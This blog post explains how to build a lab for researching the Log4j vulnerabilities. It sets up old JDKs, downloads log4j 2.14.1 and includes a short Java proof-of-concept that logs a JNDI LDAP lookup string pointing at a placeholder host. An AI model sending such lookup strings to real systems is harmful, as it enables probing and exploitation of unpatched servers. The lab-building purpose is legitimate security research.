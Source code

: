 ```yaml
---
title: "Building a Research Environment for Log4j"
date: "2023-03-03T20:35:05+00:00"
tags: 
  - "Apache"
  - "DNS resolver"
bg_image: "/assets/images/posts/image-4.png"
author:
    name: "@saldat0"
    url: "https://x.com/saldat0"
---
```

Given its widespread adoption rate and the challenge enterprises face with tracking down where it is being used, **Log4j** would likely continue to be a relevant attack vector for quite a long time. Because of this, we decided to showcase how one would go about building a local lab that can be used for developing and testing exploits, as well as validating and adapting remediation actions.

For background, whenever we refer to the Apache log4j vulnerability, we mean the following CVEs:

- CVE-2021-44228
- CVE-2021-45046
- CVE-2021-45105

## 1. Building the Vulnerable Server

Due to the many conditions and elements included in this vulnerability, which significantly influence the impact and the possible steps for remediation, we found that to be able to test and obtain realistic results that can then confidently be relied on, we had to be very precise when setting up the environment. For example, the version of JDK, the version of log4j, the operating system, the running DNS resolver services, the log4j configuration file, the Java configuration file, the environment variables, as well as what other libraries are being included in the application can all make the exploitation and patching of this issue slightly different.

And because of this, it is important to make sure that all the software matches the one of the target application. To that end, in this article, you will see that we pay particular attention not only to the version of log4j but also to Java as it also plays an important role in the exploit.

We will cover three different ways of building a vulnerable server:

### Docker Containers

Start right away with Docker, which is by far the easiest to set up. OpenJDK (an open-source implementation of the Java Platform, Standard Edition) offers [all the versions of Java](https://hub.docker.com/_/openjdk) that you may need; ready to be downloaded and used.

Keep in mind that JDK versions greater than **6u211**, **7u201**, **8u191**, and **11.0.1** are not affected by the LDAP attack vector. In these versions `com.sun.jndi.ldap.object.trustURLCodebase` is set to *false* meaning JNDI cannot load remote code using LDAP. However, the vulnerability is still exploitable using other methods, such as [beanfactory](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

In the example below you will see how easy it is to download JDK 8u171 and jump right into it:

![](/assets/images/posts/image-13.png)

### Linux Virtual Machine

Alternatively, if you prefer to set up the testing environment directly on a Linux server, it is still relatively easy. You can go to the [Java SE archive](https:/www.oracle.com/uk/java/technologies/javase/javase8-archive-downloads.html) and select the version of Java that you need (we recommend the tar.gz format).

Once the version is downloaded, it is just a matter of extracting the archive, as shown below:

{: .no-stripes}
```bash
user@ubuntu:~/poc$ ll -Ah
total 183M
-rw-rw-r-- 1 user user 183M Dec 20 02:13 jdk-8u171-linux-x64.tar.gz

user@ubuntu:~/poc$ tar zxvf jdk-8u171-linux-x64.tar.gz
[...snip...]

user@ubuntu:~/poc$ ll -Ah
total 183M
drwxr-xr-x 8 user user 4.0K Mar 28  2018 jdk1.8.0_171/
-rw-rw-r-- 1 user user 183M Dec 20 02:13 jdk-8u171-linux-x64.tar.gz

user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -version
java version "1.8.0_171"
Java(TM) SE Runtime Environment (build 1.8.0_171-b11)
Java HotSpot(TM) 64-Bit Server VM (build 25.171-b11, mixed mode)
```

### **Windows Virtual Machine**

Unlike the previous two options, downloading Java on Windows system without actually installing it, is slightly more involved. It all starts the same way: by downloading the wanted version of Java from the [Java SE archive](https://www.oracle.com/uk/java/technologies/javase/javase8-archive-downloads.html), but then rather than installing it we will have to do a few steps.

As initially described by [Igor on Stack Overflow](https://stackoverflow.com/questions/1619662/how-can-i-get-the-latest-jre-jdk-as-a-zip-file-rather-than-exe-or-msi-installe):

**Step 1:** Download and install [7zip](https://www.7-zip.org/download.html)

**Step 2:** Unarchive the executable "jdk-XuXX-windows-x64.exe" with 7zip, as shown below:

![](/assets/images/posts/image-14-1024x392.png)

**Step 3:** Run `extrac32 111` within the `.rsrc\1033\JAVA_CAB10` folder, as shown below:

![](/assets/images/posts/image-15.png)

**Step 4:** Extract the "tools.zip" archive in the same folder using 7zip

**Step 5:** Run `for /r %x in (*.pack) do .\bin\unpack200 -r "%x" "%~dx%~px%~nx.jar"` within the newly created "tools" folder, as shown below:

![](/assets/images/posts/image-16.png)

**Step 6:** Recursively copy the contents of the "tools" folder to a location where JDK would be located; in the screenshot below the new folder would be `C:\jdk-8u171`.

![](/assets/images/posts/image-17.png)

**Step7:** Verify that Java has been installed successfully:

![](/assets/images/posts/image-18.png)

## 2\. Building the Vulnerable Application

With a working server, the next step would be to download the version of log4j that would be used for testing. This could be achieved by downloading the (tar.gz or zip) library from [Apache's archive](https://archive.apache.org/dist/logging/log4j/).

In our case, that was version 2.14.1 of log4j, as shown below:

{: .no-stripes}
```bash
user@ubuntu:~/poc$ wget -q https://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.tar.gz
user@ubuntu:~/poc$ tar zxf apache-log4j-2.14.1-bin.tar.gz
user@ubuntu:~/poc$ ls -l apache-log4j-2.14.1-bin/log4j-{api,core}-2.14.1.jar
-rw-r--r-- 1 user user  300364 Mar  6  2021 apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar
-rw-r--r-- 1 user user 1745701 Mar  6  2021 apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar
```

Once that is completed, the next step is to either recreate the application you are targeting, or a simple dummy one where you can work on the attack. A short piece of code that would be able to invoke the vulnerability has been included below:

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class POC {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(POC.class);
        logger.error("${jndi:ldap://example.com/z}");
    }
}
```

To compile the script, it is important to include both the "core" and the "api" libraries:

{: .no-stripes}
```bash
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/javac -cp apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar:apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar POC.java
```

To run the script, it is once again required to include both libraries as well as the current folder:

{: .no-stripes}
```bash
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -cp apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar:apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar:. POC
14:27:56.562 [main] ERROR POC - ${jndi:ldap://example.com/z}
```

*Note that the vulnerable application hangs once executed, as an LDAP request is being made in the background and it will need to timeout.*

## 3. Testing the Proof-Of-Concept

At this point, the last element needed to complete the basic research environment would be to obtain visibility over the network traffic. Ideally, that would be done with a custom LDAP/DNS/RMI server that would be able to provide a clear indication of the request and any metadata it carries, as well as control over what data is sent back to the vulnerable application; however, some of that could be achieved with a simple packet analyser that can show if a request is being made, even if nothing is sent back. For a lot of the cases that should be enough to prove if the application is (still) vulnerable.

We would recommend Wireshark as it will be easy to see the different protocols and it is very intuitive to apply filters (unlike `tcpdump`). With it running (do not forget to execute it with elevated privileges), listening on all interfaces, you should be able to rerun the POC script and see the network traffic, as shown below:

![](/assets/images/posts/image-19.png)

## Conclusion

That concludes our build of a small testing environment for **Log4j**.  In the next blog, we will delve deeper into exploiting this vulnerability and examining different mitigation strategies.

